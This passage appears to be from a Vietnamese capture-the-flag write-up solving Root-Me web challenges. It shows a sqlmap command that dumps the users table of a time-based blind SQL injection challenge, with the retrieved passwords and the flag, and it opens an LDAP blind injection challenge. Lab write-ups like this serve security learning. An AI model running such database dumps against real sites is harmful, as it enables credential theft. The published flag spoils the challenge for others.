 - Lấy dữ liệu từ các cột:

```js
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public -T users -C id,email,password --dump
```

- Cuối cùng ta được:

```
[23:32:36] [INFO] fetching entries of column(s) 'password' for table 'users' in database 'public'
[23:32:36] [INFO] fetching number of column(s) 'password' entries for table 'users' in database 'public'
[23:32:36] [INFO] resumed: 3
[23:32:36] [WARNING] time-based comparison requires reset of statistical model, please wait........................(done)
[23:34:03] [INFO] retrieved: p@r0WKr@K3n 
[23:35:47] [INFO] retrieved: T!m3B@s3DSQL!
[23:37:03] [INFO] retrieved: J0hNG0lDeN
Database: public
Table: users
[3 entries]
+----+---------------------------+---------------+
| id | email                     | password      |
+----+---------------------------+---------------+
| 1  | ycam@sqlitimebased.com    | T!m3B@s3DSQL! |
| 2  | jsilver@sqlitimebased.com | J0hNG0lDeN    |
| 3  | jsparow@sqlitimebased.com | Sp@r0WKr@K3n  |
+----+---------------------------+---------------+
```

```
Flag: T!m3B@s3DSQL!
```


# 65. LDAP injection - Blind [55 Points]

- Tab `dir` của trang web cho phép ta search một user bất kỳ. Thử inject vào đây:

![1](img/65/Screenshot%20from%202023-02-01%2023-06-45.png)
